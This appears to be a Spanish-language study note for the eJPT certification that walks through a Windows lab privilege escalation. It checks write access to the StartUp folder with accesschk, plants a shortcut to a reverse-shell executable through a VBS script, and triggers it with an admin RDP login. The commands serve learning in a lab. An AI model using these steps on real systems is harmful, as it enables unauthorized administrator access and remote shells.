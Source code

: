 
- Usando accesschk.exe, tenga en cuenta que el grupo BUILTIN\Users puede escribir archivos en el directorio StartUp:

```
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

```
- Usando cscript, ejecute C:\PrivEsc\CreateShortcut.vbs script que debería crear un nuevo acceso directo a su ejecutable reverse.exe en el directorio StartUp:

```
cscript C:\PrivEsc\CreateShortcut.vbs
```

- Inicie un oyente en Kali y luego simule un inicio de sesión de administración usando PDR y las credenciales que extrajo anteriormente:

```
rdesktop -u admin 10.10.94.6
```

- Un shell que se ejecuta como administrador debe conectarse nuevamente a su oyente.

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]